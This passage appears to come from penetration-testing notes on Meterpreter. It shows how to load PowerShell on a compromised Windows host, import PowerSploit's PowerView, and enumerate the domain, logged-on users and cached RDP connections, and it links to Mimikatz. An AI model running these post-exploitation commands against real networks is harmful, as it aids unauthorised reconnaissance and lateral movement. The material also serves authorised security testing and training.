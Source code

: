 More details on Mimikatz can be found [here](https://github.com/gentilkiwi/mimikatz/wiki)

### PowerShell on Meterpreter

If the target supports PowerShell 2.0, you can run `load powershell`. 
If the target does not support PowerShell 2.0 engine, you'll need to use the PowerShell reverse shell payload. 
With the extension loaded, we can run `help` and see three additional commands:

* powershell_execute # Execute a Powershell command string
* powershell_import.  # Import a PS1 script .NET assembly DLL
* powershell_shell.     # Create an interactive Powershell prompt

```bash
powershell_execute "$PSVersionTable"
# Import a script or assembly to the target - must end in .ps1 or .dll
# https://github.com/PowerShellMafia/PowerSploit/ which is a PowerShell Post-Exploitation Framework
powershell_import "/root/Desktop/PowerSploit/Recon/PowerView.ps1"
# Now we can execute / invoke PowerView
powershell_execute Get-NetDomain
# Get the logged on users
powershell_execute Get-NetLoggedon
# Get an interactive powershell shell
powershell_shell
# With previous imported scripts, we can access the functions
Get-CachedRDPConnection
```

https://github.com/PowerShellMafia/PowerSploit

https://powersploit.readthedocs.io/en/latest
